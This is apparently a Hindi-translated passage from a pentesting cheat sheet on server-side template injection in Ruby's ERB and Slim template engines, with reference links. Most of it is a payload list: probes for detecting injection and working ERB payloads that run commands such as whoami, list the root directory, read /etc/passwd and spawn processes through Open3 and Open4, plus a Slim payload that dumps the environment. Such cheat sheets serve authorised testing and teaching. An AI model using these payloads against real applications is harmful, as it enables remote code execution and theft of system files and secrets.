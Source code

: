 <figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*jj_-oBi3gZ6UNTvkBogA6Q.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*jj_-oBi3gZ6UNTvkBogA6Q.jpeg</a></p></figcaption></figure>

* अधिक जानकारी [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756) में

### ERB (Ruby)

* `{{7*7}} = {{7*7}}`
* `${7*7} = ${7*7}`
* `<%= 7*7 %> = 49`
* `<%= foobar %> = Error`
```python
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
**अधिक जानकारी**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Slim (Ruby)

* `{ 7 * 7 }`
```
{ %x|env| }
```
**अधिक जानकारी**
